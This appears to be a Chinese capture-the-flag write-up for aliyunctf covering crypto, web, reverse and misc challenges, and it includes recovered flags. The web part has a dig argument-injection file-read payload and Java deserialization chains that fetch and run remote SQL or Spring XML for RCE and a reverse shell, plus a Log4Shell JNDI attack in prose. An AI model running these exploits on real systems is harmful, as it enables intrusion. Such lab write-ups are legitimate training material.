        self.B = self.E.lift_x(ZZ(B_x))
        self.ciphertext = bytes.fromhex(self.conn.recvline().strip().decode())

    def collect_data_i(self, P):
        send_x, send_y = map(lambda x: f'{int(x):064x}', P.xy())
        self.conn.sendline(send_x)
        self.conn.sendline(send_y)
        self.conn.recvuntil('Leak: ')
        x_LSB = int(self.conn.recvline().strip(), 16)
        self.LSB_list.append(x_LSB)
        if self.debug:
            ans = int(self.conn.recvline())
            self.ans_list.append(ans)
            self.e_list.append(ans // self.l)

            print(f'{max(self.e_list).nbits() = }')

    def collect_data(self):
        P = self.B
        self.collect_data_i(P)
        for i in range(1, self.n + 1):
            # Should be organized in pairs
            P = self.B + i * self.G
            self.collect_data_i(P)
            P = self.B - i * self.G
            self.collect_data_i(P)

    def get_F(self, h_0, h_1, h_2, x_Q, e_0, e_tilde_i):
        l = self.l
        p = self.p
        u = inverse_mod(l, p)
        h_tilde = u * (h_1 + h_2) % p
        a = self.a
        b = self.b

        A = (-2)*h_0^2*x_Q*u + (-2)*h_0*x_Q^2*u + h_tilde*h_0^2 + (-2)*h_tilde*h_0*x_Q + h_tilde*x_Q^2 + (-2)*h_0*u*a + (-2)*x_Q*u*a + (-4)*u*b
        B = (-4)*h_0*l*x_Q*u + (-2)*l*x_Q^2*u + 2*h_tilde*h_0*l + (-2)*h_tilde*l*x_Q + (-2)*l*u*a
        C = (-2)*l^2*x_Q*u + h_tilde*l^2
        D = h_0^2 + (-2)*h_0*x_Q + x_Q^2
        E = 2*h_0*l + (-2)*l*x_Q
        F = l^2

        A, B, C, D, E, F = map(lambda x: ZZ(x * inverse_mod(F, p) % p), (A, B, C, D, E, F))

        f = A + B * e_0 + C * e_0^2 + D * e_tilde_i + E * e_0 * e_tilde_i + F * e_0^2 * e_tilde_i
        return f, [A, B, C, D, E]

    def get_W_lemma3(self, coeff_list):
        l = len(coeff_list)
        F.<x_0> = PolynomialRing(ZZ)
        p = self.p

        M = []

        for first_term in [1, x_0]:
            my_f_all = first_term * prod(x_0^2 + Ei * x_0 + Di for Ai, Bi, Ci, Di, Ei in coeff_list)
            for i in range(l):
                Ai, Bi, Ci, Di, Ei = coeff_list[i]
                my_f = my_f_all // (x_0^2 + Ei * x_0 + Di)
                my_row = my_f.list()
                my_row = my_row + [0] * (2*l - len(my_row))
                M.append(my_row)

        M = matrix(Zmod(p^(l-1)), M)
        W = M^-1

        return W

    def gao_solve(self):
        p = self.p

        F.<e_0, e_1, e_2, e_3, e_4, e_5> = PolynomialRing(ZZ)
        ei_list = [e_1, e_2, e_3, e_4, e_5]
        F_list = []
        coeff_list = []
        for i in range(self.n):
            e_i = ei_list[i]
            h_0 = self.LSB_list[0]
            h_1 = self.LSB_list[2*i+1]
            h_2 = self.LSB_list[2*i+2]
            x_Q = ((i+1) * self.A).xy()[0]
            f, coeff = self.get_F(h_0, h_1, h_2, x_Q, e_0, e_i)
            F_list.append(f)
            coeff_list.append(coeff)

            # CHECK
            if self.debug:
                e_0_ = self.e_list[0]
                e_1_ = self.e_list[2*i+1]
                e_2_ = self.e_list[2*i+2]
                e_tilde_ = e_1_ + e_2_
                param_list = [0 for i in range(6)]
                param_list[0] = e_0_
                param_list[i+1] = e_tilde_
                pd = f(*param_list) % p
                assert pd == 0
                # raise Exception("STOP")

        # Construct f_{i_0, i_1, ..., i_n} (x)
        # Construct F_{i_0, i_1, ..., i_n}
        # 1 <= d <= n
        # 0 <= t <= 2d − 1
        # d = 4
        # t = 0
        d = 4
        t = 0


        monomial_tuples = []
        FF_list = []
        leading_term2FF = {}
        GG_list = []
        leading_term2GG = {}
        for i_0 in range(2 * d):
            for l in range(d + 1):
                for one_places in itertools.combinations(range(self.n), l):
                    i_list = [0 for i in range(self.n)]
                    for one_place in one_places:
                        i_list[one_place] = 1

                    # Case a
                    if l == 0:
                        ff = e_0^i_0

                    # Case b
                    if (l == 1) and (0 <= i_0 <= 1):
                        ff = e_0^i_0 * prod(ei^ii for ei, ii in zip(ei_list, i_list))

                    # Case c
                    if (1 <= l <= d) and (2*l <= i_0 <= 2*d):
                        ff = e_0^(i_0 - 2*l) * prod(fi^ii for fi, ii in zip(F_list, i_list))

                    # Case d
                    if (2 <= l <= d) and (0 <= i_0 <= 2*l - 1):
                        #  Lemma 3
                        ## Extract D's & E's in one_places
                        coeff_one = [coeff_list[i] for i in one_places]
                        F_one = [F_list[i] for i in one_places]
                        ## Use Lemma 3
                        W = self.get_W_lemma3(coeff_one)
                        #  Construct
                        ff = 0
                        prod_F_one = prod(F_one)
                        for u in range(l):
                            for v in range(2):
                                current_prod = (prod_F_one // F_one[u])
                                # Guess...
                                ffi = ZZ(W[i_0, u+l*v]) * e_0^v * current_prod * ei_list[one_places[u]]
                                ff += ffi

                        ff %= p^(l-1)

                    leading_term = [i_0] + i_list
                    # print(f'{ff.monomial_coefficient(leading_term) = }')
                    monomial_tuples.append(MyOrder(leading_term))

                    if (1 <= l <= d) and (0 <= i_0 <= 2*l-1):
                        FF_ = p^(d+1-l) * ff

                    if (0 <= l <= d) and (2*l <= i_0 <= 2*d):
                        FF_ = p^(d-l) * ff

                    FF_list.append(FF_)
                    leading_term2FF[tuple(leading_term)] = FF_

                    GG_ = FF_
                    GG_list.append(GG_)
                    leading_term2GG[tuple(leading_term)] = GG_

                    if self.debug:
                        e_list_ = [self.e_list[0]] + [e1 + e2 for e1, e2 in zip(self.e_list[1::2], self.e_list[2::2])]
                        pd = GG_(*e_list_) % (p^d)
                        assert pd == 0

        # However, we need to build G here, namely L2
        l = d + 1
        for i_0 in range(t + 1):
            for one_places in itertools.combinations(range(self.n), l):
                i_list = [0 for i in range(self.n)]
                for one_place in one_places:
                    i_list[one_place] = 1

                #  Lemma 3
                ## Extract D's & E's in one_places
                coeff_one = [coeff_list[i] for i in one_places]
                F_one = [F_list[i] for i in one_places]
                ## Use Lemma 3
                W = self.get_W_lemma3(coeff_one)

                #  Construct
                H = 0
                J = 0
                K = 0
                prod_F_one = prod(F_one)

                for u in range(d+1):
                    Au, Bu, Cu, Du, Eu = coeff_one[u]
                    # H J
                    for v in range(2):
                        H += ZZ(W[i_0, u+v*(d+1)]) * e_0^v * (prod_F_one // F_one[u]) * ei_list[one_places[u]]
                        J += ZZ(W[i_0, u+v*(d+1)]) * e_0^v * (prod_F_one // F_one[u]) * Cu
                    # K
                    K += ZZ(W[i_0, u+(d+1)]) * (prod_F_one // F_one[u]) * (Bu - Cu * Eu)

                leading_term = [i_0] + i_list
                # print(f'{ff.monomial_coefficient(leading_term) = }')
                monomial_tuples.append(MyOrder(leading_term))

                GG_ = (H + J + K) % (p^d)
                # GG_.change_ring()
                GG_list.append(GG_)
                leading_term2GG[tuple(leading_term)] = GG_

                if self.debug:
                    e_list_ = [self.e_list[0]] + [e1 + e2 for e1, e2 in zip(self.e_list[1::2], self.e_list[2::2])]
                    pd = GG_(*e_list_) % (p^d)
                    assert pd == 0
                    pd = H(*e_list_) % (p^d)
                    assert pd == 0
                    pd = J(*e_list_) % (p^d)
                    assert pd == 0
                    pd = K(*e_list_) % (p^d)
                    assert pd == 0

        # Construct lattice
        X = 2^93

        ei_list = [e_0] + ei_list

        # Sort monomials in Graded reverse lexicographic order

        monomial_tuples.sort()
        monomial_tuples = [X.x_tup for X in monomial_tuples]
        monomials = [prod(ei^exp_i for ei, exp_i in zip(ei_list, exponent_)) for exponent_ in monomial_tuples]

        nrows = len(monomials)
        ncols = len(GG_list)

        L = [[0 for j in range(ncols)] for i in range(nrows)]
        scaled_ei_list = [X * ei for ei in ei_list]
        X_list = [X for i in range(len(ei_list))]

        for i in range(nrows):
            leading_term = monomial_tuples[i]
            GG_ = leading_term2GG[leading_term]

            G_scale = GG_(*scaled_ei_list)
            for j in range(ncols):
                # print(f'{monomials[j] = }, {type(G_scale) = }')
                if 'polydict' in type(G_scale).__name__:
                    print(G_scale)
                L[i][j] = G_scale.monomial_coefficient(monomials[j])

        L = Matrix(ZZ, L)
        print(f'{L.nrows() = }, {L.ncols() = }')
        # show_lattice(L)
        # L = L.LLL()
        L = flatter(L)

        # Recover poly
        reduced_polynomials = []
        for i in range(nrows):
            r_i = 0
            for j in range(ncols):
                r_i += L[i][j] // monomials[j](*X_list) * monomials[j]
            reduced_polynomials.append(r_i)

        if self.debug:
            e_list_ = [self.e_list[0]] + [e1 + e2 for e1, e2 in zip(self.e_list[1::2], self.e_list[2::2])]
            print(f'{all(ei < X for ei in e_list_) = }')
            print(f'{e_list_[0] = }')
            print(f'{X = }, {X.nbits() = }')
            ok_poly_id = []
            for i, f in enumerate(reduced_polynomials):
                # print(f'{i = }')
                # print(f'{f(*e_list_) % (p^d) = }')
                # print(f'{f(*e_list_) // (p^d) = }')
                s = f(*e_list_) // (p^d)
                if (s == 0):
                    ok_poly_id.append(i)
            print(f'{ok_poly_id = }')


        my_ideal_list = [Hi.change_ring(QQ) for Hi in reduced_polynomials]
        # print(f'{my_ideal_list[2] = }')
        # print(f'{my_ideal_list[7] = }')
        # print(f'{my_ideal_list[22] = }')

        # Empirical value
        #V = Ideal(my_ideal_list[8:15]).variety(ring=ZZ)
        V = fgb_sage.groebner_basis(my_ideal_list[7:25])
        print(f'{V = }')
        #self.e_0 = V[0][e_0]
        self.e_0 = e_0 - V[0]
        print(f'{self.e_0 = }')
        self.shared_AB = self.e_0 * self.l + self.LSB_list[0]

    def submit_answer(self):
        print(f'{self.shared_AB = }')
        key = sha256(str(self.shared_AB).encode()).digest()
        msg = AES.new(key, AES.MODE_ECB).decrypt(self.ciphertext)
        assert msg.startswith(b'Secret sign')
        ss = msg[-65:-1]
        ct = AES.new(key, AES.MODE_ECB).encrypt(ss).hex()
        self.conn.sendline(ct)

    def gao(self):
        self.gao_sha256()
        self.recv_pk()
        self.collect_data()
        self.gao_solve()
        self.submit_answer()
        self.conn.interactive()

if __name__ == '__main__':
    g = Gao()
    g.gao()
```



# Web

## web签到

dig 命令读文件

https://gtfobins.github.io/gtfobins/dig/

```JSON
{"domain":"l1nyz-tel.cc","type":"-f/flag"}
```



## chain17

**从百草园打到三味书屋**

### Agent

打 h2 rce，之后在 agent 服务器上写 java 代码去请求 server，server 是出网的，弹个 shell 出来就行

```Java
       String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://127.0.0.1:1235/1.sql';";
//        String JDBC_URL = "jdbc:h2:mem:testdb;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://host.docker.internal:1235/2.sql'";
        Setting setting = new Setting();
        HashMap map = new HashMap();
        map.put("url",JDBC_URL);
        setting.putAll("",map);
        setFiledValue(setting,"charset",null);
        PooledDSFactory pooledDataSource = new PooledDSFactory(setting);


        // 删除 jsonNode 的 writeReplace
        try {
            ClassPool pool1 = ClassPool.getDefault();
            CtClass jsonNode = pool1.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
            CtMethod writeReplace = jsonNode.getDeclaredMethod("writeReplace");
            jsonNode.removeMethod(writeReplace);
            ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
            jsonNode.toClass(classLoader, null);
        } catch (Exception e) {
        }

//        POJONode pojoNode = new POJONode(pooledDataSource);

//        POJONode pojoNode = new POJONode(pooledDataSource);
//        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
//        setFiledValue(val, "val", pojoNode);
//
        Bean bean = new Bean();
        bean.setData(yuanshenSerialize(pooledDataSource));
        POJONode pojoNode = new POJONode(bean);

        AtomicReference atomicReference = new AtomicReference(pojoNode);
        //atomicReference.set(pojoNode);


        JSONObject jsonObject = new JSONObject();
        HashMap hashMap = new HashMap();
        hashMap.put("1",atomicReference);
        jsonObject.put("1","telthai");
        setFiledValue(jsonObject,"raw",hashMap);
        serialize(jsonObject);
        unserialize("ser.bin");
```

### Server

codeql 一步到位

```Java
    public static void main(String[] args) throws Exception {
        DataType dataType = new DefaultDataType<org.springframework.context.support.ClassPathXmlApplicationContext >(SQLDialect.DEFAULT, org.springframework.context.support.ClassPathXmlApplicationContext.class, "varchar");
        Val val = new org.jooq.impl.Val("http://127.0.0.1:1234/1.xml",dataType,false);

        ConvertedVal convertedVal = new ConvertedVal(val,dataType);

        // convertedVal.getValue();
        POJONode pojoNode = new POJONode(convertedVal);
//        pojoNode.toString();

        Class cls = Class.forName(  "com.sun.org.apache.xpath.internal.objects.Xstring");
        Constructor constructor = cls,getDeclaredconstructor(String.class);
        constructor.setAccessible(true);
        Object xString = constructor.newInstance("1");
        HashMap hashMap = makeMap(xString,pojoNode);
        serialize(hashMap);

    }

    public static HashMap<Object, Object> makeMap (Object v1, Object v2) throws Exception {
        HashMap s = new HashMap();
        setFiledValue(s, "size", 2);
        Class nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFiledValue(s, "table", tbl);
        return s;
    }
```

## easyCAS

看了下版本 5.3.16，log4j2版本较低受log4shell影响，题目又说开了debug

直接测试登录框用户名触发payload

JNDI-Injection-Exploit一把梭，打SpringBoot那个链反弹shell

flag在根目录/flag.txt

aliyunctf{N0_on3_kNOw_spr1n6fR4mEWoRK_7Han_y0u}

# Reverse

## 欧拉！

逆向二进制得到逻辑是求一个欧拉通路,但是对输入还有其他的约束。将所有的情况列举出来再判断一下输入的其他约束即可

```Python
edges = [[0, 2], [0, 5], [0, 8], [1, 3], [1, 4], [1, 5], [1, 8], [2, 3], [2, 6], [2, 7], [3, 4], [3, 8], [4, 6], [5, 6], [5, 8], [6, 8], [7, 8]]
edge_tuples = [(x, y) for x,y in edges]
eulerEdges = edge_tuples

start = 0
visited = [0 for i in range(len(eulerEdges))]
queue = []
eulerFlag = False

def isEuler():
    allVisited = True
    for e in visited:
        if e == 0:
            allVisited = False
    if allVisited:
        if queue[0] == queue[len(queue) - 1]:
            return 1
        else:
            return 2
    return 0

def printPath(flag):
    if queue[1] > queue[2] and queue[3] < queue[4] and queue[0] == queue[8] and queue[11] == queue[15] and queue[10] > queue[5] and queue[3] < queue[13] and queue[7] < queue[4] and queue[14] == 7 and queue[17] == 4:
        print("flag!")
    else:
        return
    print("aliyunctf{", end="")
    for i in range(len(queue)):
        if i < len(queue) - 1:
            print(queue[i], end="")
        else:
            print(queue[i],end="}")


def dfs(u):
    li = queue.append(u)
    flag = isEuler()
    if flag > 0:
        eulerFlag = True
        printPath(flag)
    for i in range(len(eulerEdges)):
        if visited[i] == 1:
            continue
        edge = eulerEdges[i]
        if edge[0] == u:
            visited[i] = 1
            dfs(edge[1])
            queue.pop()
            visited[i] = 0
        elif edge[1] == u:
            visited[i] = 1
            dfs(edge[0])
            queue.pop()
            visited[i] = 0
dfs(start)
```

# Misc

## 字

010打开发现文件中只有UTF-8字符，没有其他数据；一眼盯出，同时存在长得很像的“文”字和类似字



换用兼容性不强的艺术字体（图中是字体圈欣意冠黑体）把这些字凸显出来，在Unicode表中检索，可以知道它们都是[康熙部首](https://zhuanlan.zhihu.com/p/352872903)：`assert all([0x2f00 <= ord(c) <= 0x2fdf for c in '⽂⾼⾦⾄⽣⽇⽌⽤⾔⽅⾧⾯⾹⾮⾃⼈⼯⼀⼗⼥⾳⽽⽬⼤⼆⼲⼿⽃⾖⼜⾻⼐⼩⾊⽰⽕⾍⽅⿎⽴⼊⾏⽉⽇'])`



原文有意义，不太可能是取这种字的字码，也不太可能是两个这种字之间的距离，因为有意义的原文不是这么好构造的。可以尝试把康熙部首和对应的正常字分别变成1和0

```Python
with open('汉字.纯文本', 'r', encoding='utf-8') as f:
    hanzi = f.read()

dic = '''1 ⼀ 2F00 一 4E00
2 ⼁ 2F01 丨 4E28
3 ⼂ 2F02 丶 4E36
4 ⼃ 2F03 丿 4E3F
5 ⼄ 2F04 乙 4E59
6 ⼅ 2F05 亅 4E85
7 ⼆ 2F06 二 4E8C
8 ⼇ 2F07 亠 4EA0
9 ⼈ 2F08 人 4EBA
10 ⼉ 2F09 儿 513F
11 ⼊ 2F0A 入 5165
12 ⼋ 2F0B 八 516B
13 ⼌ 2F0C 冂 5182
14 ⼍ 2F0D 冖 5196
15 ⼎ 2F0E 冫 51AB 
16 ⼏ 2F0F 几 51E0
17 ⼐ 2F10 凵 51F5
18 ⼑ 2F11 刀 5200
19 ⼒ 2F12 力 529B
20 ⼓ 2F13 勹 52F9
21 ⼔ 2F14 匕 5315 
22 ⼕ 2F15 匚 531A 
23 ⼖ 2F16 匸 5338 
24 ⼗ 2F17 十 5341
25 ⼘ 2F18 卜 535C
26 ⼙ 2F19 卩 5369
27 ⼚ 2F1A 厂 5382
28 ⼛ 2F1B 厶 53B6
29 ⼜ 2F1C 又 53C8
30 ⼝ 2F1D 口 53E3
31 ⼞ 2F1E 囗 56D7
32 ⼟ 2F1F 土 571F
33 ⼠ 2F20 士 58EB
34 ⼡ 2F21 夂 5902
35 ⼢ 2F22 夊 590A
36 ⼣ 2F23 夕 5915
37 ⼤ 2F24 大 5927
38 ⼥ 2F25 女 5973
39 ⼦ 2F26 子 5B50
40 ⼧ 2F27 宀 5B80
41 ⼨ 2F28 寸 5BF8
42 ⼩ 2F29 小 5C0F
43 ⼪ 2F2A 尢 5C22
44 ⼫ 2F2B 尸 5C38
45 ⼬ 2F2C 屮 5C6E
46 ⼭ 2F2D 山 5C71
47 ⼮ 2F2E 巛 5DDB
48 ⼯ 2F2F 工 5DE5
49 ⼰ 2F30 己 5DF1
50 ⼱ 2F31 巾 5DFE
51 ⼲ 2F32 干 5E72
52 ⼳ 2F33 幺 5E7A
53 ⼴ 2F34 广 5E7F
54 ⼵ 2F35 廴 5EF4
55 ⼶ 2F36 廾 5EFE
56 ⼷ 2F37 弋 5F0B
57 ⼸ 2F38 弓 5F13
58 ⼹ 2F39 彐 5F50
59 ⼺ 2F3A 彡 5F61
60 ⼻ 2F3B 彳 5F73
61 ⼼ 2F3C 心 5FC3
62 ⼽ 2F3D 戈 6208
63 ⼾ 2F3E 戶 6236
64 ⼿ 2F3F 手 624B
65 ⽀ 2F40 支 652F
66 ⽁ 2F41 攴 6534
67 ⽂ 2F42 文 6587
68 ⽃ 2F43 斗 6597
69 ⽄ 2F44 斤 65A4
70 ⽅ 2F45 方 65B9
71 ⽆ 2F46 无 65E0
72 ⽇ 2F47 日 65E5
73 ⽈ 2F48 曰 66F0
74 ⽉ 2F49 月 6708
75 ⽊ 2F4A 木 6728
76 ⽋ 2F4B 欠 6B20
77 ⽌ 2F4C 止 6B62
78 ⽍ 2F4D 歹 6B79
79 ⽎ 2F4E 殳 6BB3
80 ⽏ 2F4F 毋 6BCB
81 ⽐ 2F50 比 6BD4
82 ⽑ 2F51 毛 6BDB
83 ⽒ 2F52 氏 6C0F
84 ⽓ 2F53 气 6C14
85 ⽔ 2F54 水 6C34
86 ⽕ 2F55 火 706B
87 ⽖ 2F56 爪 722A
88 ⽗ 2F57 父 7236
89 ⽘ 2F58 爻 723B
90 ⽙ 2F59 爿 723F
91 ⽚ 2F5A 片 7247
92 ⽛ 2F5B 牙 7259
93 ⽜ 2F5C 牛 725B
94 ⽝ 2F5D 犬 72AC
95 ⽞ 2F5E 玄 7384
96 ⽟ 2F5F 玉 7389
97 ⽠ 2F60 瓜 74DC
98 ⽡ 2F61 瓦 74E6
99 ⽢ 2F62 甘 7518
100 ⽣ 2F63 生 751F
101 ⽤ 2F64 用 7528
102 ⽥ 2F65 田 7530
103 ⽦ 2F66 疋 758B
104 ⽧ 2F67 疒 7592
105 ⽨ 2F68 癶 7676
106 ⽩ 2F69 白 767D
107 ⽪ 2F6A 皮 76AE
108 ⽫ 2F6B 皿 76BF
109 ⽬ 2F6C 目 76EE
110 ⽭ 2F6D 矛 77DB
111 ⽮ 2F6E 矢 77E2
112 ⽯ 2F6F 石 77F3
113 ⽰ 2F70 示 793A
114 ⽱ 2F71 禸 79B8
115 ⽲ 2F72 禾 79BE
116 ⽳ 2F73 穴 7A74
117 ⽴ 2F74 立 7ACB
118 ⽵ 2F75 竹 7AF9
119 ⽶ 2F76 米 7C73
120 ⽷ 2F77 糸 7CF8
121 ⽸ 2F78 缶 7F36
122 ⽹ 2F79 网 7F51
123 ⽺ 2F7A 羊 7F8A
124 ⽻ 2F7B 羽 7FBD
125 ⽼ 2F7C 老 8001
126 ⽽ 2F7D 而 800C
127 ⽾ 2F7E 耒 8012
128 ⽿ 2F7F 耳 8033
129 ⾀ 2F80 聿 807F
130 ⾁ 2F81 肉 8089
131 ⾂ 2F82 臣 81E3
132 ⾃ 2F83 自 81EA
133 ⾄ 2F84 至 81F3
134 ⾅ 2F85 臼 81FC
135 ⾆ 2F86 舌 820C
136 ⾇ 2F87 舛 821B
137 ⾈ 2F88 舟 821F
138 ⾉ 2F89 艮 826E
139 ⾊ 2F8A 色 8272
140 ⾋ 2F8B 艸 8278
141 ⾌ 2F8C 虍 864D
142 ⾍ 2F8D 虫 866B
143 ⾎ 2F8E 血 8840
144 ⾏ 2F8F 行 884C
145 ⾐ 2F90 衣 8863
146 ⾑ 2F91 襾 897E
147 ⾒ 2F92 見 898B
148 ⾓ 2F93 角 89D2
149 ⾔ 2F94 言 8A00
150 ⾕ 2F95 谷 8C37
151 ⾖ 2F96 豆 8C46
152 ⾗ 2F97 豕 8C55
153 ⾘ 2F98 豸 8C78
154 ⾙ 2F99 貝 8C9D
155 ⾚ 2F9A 赤 8D64
156 ⾛ 2F9B 走 8D70
157 ⾜ 2F9C 足 8DB3
158 ⾝ 2F9D 身 8EAB
159 ⾞ 2F9E 車 8ECA
160 ⾟ 2F9F 辛 8F9B
161 ⾠ 2FA0 辰 8FB0
162 ⾡ 2FA1 辵 8FB5
163 ⾢ 2FA2 邑 9091
164 ⾣ 2FA3 酉 9149
165 ⾤ 2FA4 釆 91C6
166 ⾥ 2FA5 里 91CC
167 ⾦ 2FA6 金 91D1
168 ⾧ 2FA7 長 9577
169 ⾨ 2FA8 門 9580
170 ⾩ 2FA9 阜 961C
171 ⾪ 2FAA 隶 96B6
172 ⾫ 2FAB 隹 96B9
173 ⾬ 2FAC 雨 96E8
174 ⾭ 2FAD 青 9752
175 ⾮ 2FAE 非 975E
176 ⾯ 2FAF 面 9762
177 ⾰ 2FB0 革 9769
178 ⾱ 2FB1 韋 97CB
179 ⾲ 2FB2 韭 97ED
180 ⾳ 2FB3 音 97F3
181 ⾴ 2FB4 頁 9801
182 ⾵ 2FB5 風 98A8
183 ⾶ 2FB6 飛 98DB
184 ⾷ 2FB7 食 98DF
185 ⾸ 2FB8 首 9996
186 ⾹ 2FB9 香 9999
187 ⾺ 2FBA 馬 99AC
188 ⾻ 2FBB 骨 9AA8
189 ⾼ 2FBC 髙 9AD9
190 ⾽ 2FBD 髟 9ADF
191 ⾾ 2FBE 鬥 9B25
192 ⾿ 2FBF 鬯 9B2F
193 ⿀ 2FC0 鬲 9B32
194 ⿁ 2FC1 鬼 9B3C
195 ⿂ 2FC2 魚 9B5A
196 ⿃ 2FC3 鳥 9CE5
197 ⿄ 2FC4 鹵 9E75
198 ⿅ 2FC5 鹿 9E7F
199 ⿆ 2FC6 麥 9EA5
200 ⿇ 2FC7 麻 9EBB
201 ⿈ 2FC8 黃 9EC3
202 ⿉ 2FC9 黍 9ECD
203 ⿊ 2FCA 黑 9ED1
204 ⿋ 2FCB 黹 9EF9
205 ⿌ 2FCC 黽 9EFD
206 ⿍ 2FCD 鼎 9F0E
207 ⿎ 2FCE 鼓 9F13
208 ⿏ 2FCF 鼠 9F20
209 ⿐ 2FD0 鼻 9F3B
210 ⿑ 2FD1 齊 9F4A
211 ⿒ 2FD2 齒 9F52
212 ⿓ 2FD3 龍 9F8D
213 ⿔ 2FD4 龜 9F9C
214 ⿕ 2FD5 龠 9FA0'''

for i in '0123456789ABCDEF ':
    dic = dic.replace(i, '')

dic = dic.split('\n')

# print(dic)

res = ''
char = ''

for idxi, i in enumerate(hanzi):
    for idxj, j in enumerate(dic):
        if i in j:
            res += '1' if i == j[0] else '0'
            char += i

print(len(res))
print(res)
print(char)

# 332
# 00100000000010010000010011110110100010011000101101000001010011010011000101000101110001101111010011001101100010000100000000100000101101011110010000110110010010110101111001000011011001010111101000100011011000111001011101000101010111010001010101110100010101010110100100011001101100100011011000100001000000001000111111100000000000000000
# 又文⽂人而文文广用一广用⾼文示⽂文目至文骨⽂文金⽂⽂⼩⾄生⾪⽣隶⽣行日用⼿止用⽂⼀用至生⽂而⾔⽐文⽅文人方文至⾼水⽤一用⽂⽇面⽂自行⼤⼤用香大⽤用⾮日自行⽇大⽅⽤⽽用人方⼯⾔用⼯⾔⼈⼀自⾦一十⼋⾦言小⼠⾦女⽆⽂人子子⼥文女文文⽅文文用一文日人生⽒音文生非一⼀一⼈⼈用⼈用⾄⾦⽯⼀音而⾸目大小一⼆⽽金⼲⽤一二⽽一二⽽音⽂⽽音⽽音⿒⼝⽛⾳而止⾳齒音一又⾾⼆手⽃⼈音而⽃豆⾳而⾾⾳⼀⽆音⼜无方身⽰又臼骨⽂⼐而⾯⾦文凵米⾕⼩⾅人工⽽人⼀⽰⼤生⼯白色白⾊白⼤至⽤一⼀⽤⼀而⽣而而而⽤止⽤示⾜示⽤⽕⽤虫⾮自一人⽤文⽤方⽂入⽂方⼈⿎用⿎立方⾳文比人⽽⽤人人⼊⽤行⽅⾏至音⽇用方音⽅⾏方⼆⾙見二一⼿而方力行⽉日一月行人月日方⽉文大革⼀⼤⽤⾄⼆⽅⼆用一八而用大日二行日用行大一一日自
```

得到332bits，给0和1分别上色，发现如果每14位分为一组，刚好最高位都是0，且存在相同的几行


猜测14位编码一个汉字，尝试按区位码处理

```Python
res = '00100000000010010000010011110110100010011000101101000001010011010011000101000101110001101111010011001101100010000100000000100000101101011110010000110110010010110101111001000011011001010111101000100011011000111001011101000101010111010001010101110100010101010110100100011001101100100011011000100001000000001000111111100000000000000000'
res = res.rstrip('0')[:-7]
res = [res[i:i+7] for i in range(0, len(res), 7)]
res = [int(i, 2) + 0xA0 for i in res]
res = bytes(res).decode('gbk')
print(res)
# 阿里云夺旗赛左花括二六二六下划五五五四右花括
# aliyunctf{2626_5554}
```

## 帕鲁情绪管理

文本情绪分类 不会真有帕鲁炼丹吧 不会吧不会吧

数据集看起来很推特，很好搜到很火的航空数据集：

https://data.world/crowdflower/airline-twitter-sentiment

```Python
import copy

from pwn import *
import tqdm

char_dic = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'


def get_hash(_pre, _goal):
    for a in tqdm.tqdm(list(char_dic)):
        for b in list(char_dic):
            for c in list(char_dic):
                for d in list(char_dic):
                    if hashlib.sha256((_pre + a + b + c + d).encode()).hexdigest() == _goal:
                        return a + b + c + d


dat = {}
with open('1.csv', 'rb') as f:
    for line in f.read().split(b'\n'):
        line = line.strip()
        if b',' in line:
            res = line.split(b',')[0]
            dat[b''.join(line.split(b',')[1:])] = res

print(dat.keys())


def get_res(inp):
    inp = inp.encode()
    if inp == b'@united thank you!':
        return 'positive'
    for x in dat.keys():
        if inp[:16] in x:
            return dat[x].decode()
        elif inp[-16:] in x:
            return dat[x].decode()
        elif inp[5:21] in x:
            return dat[x].decode()
    return 'negative'


p = remote("misc0.aliyunctf.com", 9999)
_ = p.recvuntil(b'sha256(("')
pre = p.recvuntil(b'"', drop=True).decode()
_ = p.recvuntil(b' = ')
goal = p.recvuntil(b'\n', drop=True).decode()

p.sendlineafter(b'Please input the answer:', get_hash(pre, goal).encode())
p.sendlineafter(b'y/n)', b'y')
p.sendlineafter(b'/n)', b'y')
context.log_level = 'debug'

for _ in range(15):
    _ = p.recvuntil(b'text: ')
    txt = p.recvline().decode()
    p.sendlineafter(b'Please input the answer: ', get_res(txt).encode())

p.interactive()
```